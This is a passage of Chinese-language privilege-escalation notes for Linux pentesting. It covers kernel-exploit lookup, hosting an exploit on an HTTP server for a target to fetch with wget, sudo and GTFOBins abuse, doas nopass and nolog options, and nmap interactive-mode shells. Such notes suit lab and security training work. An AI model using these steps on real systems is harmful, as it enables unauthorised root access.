 查看内核

```
uname -a
uname -r
```

searchsploit + 内核版本

google

https://www.cvedetails.com/



上传exp可以服务器开启http服务

靶机wget进行请求

```
sudo python3 -m http.server
wget http://10.10.10.10:8080/test
```



## Sudo

sudo -l查看当前用户可以使用的命令

https://gtfobins.github.io/ 

## doas

doas是sudo的替代品

默认情况安装到`/usr/local/bin`，其配置文件在`/usr/local/etc/doas.conf`

doas.conf的语法

```
permit|deny [options] identity [as target] [cmd command [args ...]]
```

options包括

> 1. nopass，执行命令时不需要输入密码
> 2. nolog，命令执行成功时不会记录
> 3. persist，授权后，一段时间内不会要求再次输入密码
> 4. keepenv，如果没有其他说明，保持环境变量不变
> 5. setenv，设置临时的环境变量，具体方法为 `setenv { -ENV PS1=$DOAS_PS1 SSH_AUTH_SOCK }`

## nmap

### Nmap Interactive Mode Nmap 交互模式

如果你有执行 nmap 的 sudo 权限，可以使用两种方法通过 nmap 升级，这取决于机器上安装的版本。我们可以使用 `nmap -v` 检查 nmap 的版本。

对于 nmap 版本 2.02 到 5.21，可以与 nmap 一起使用交互模式来执行 shell 命令。

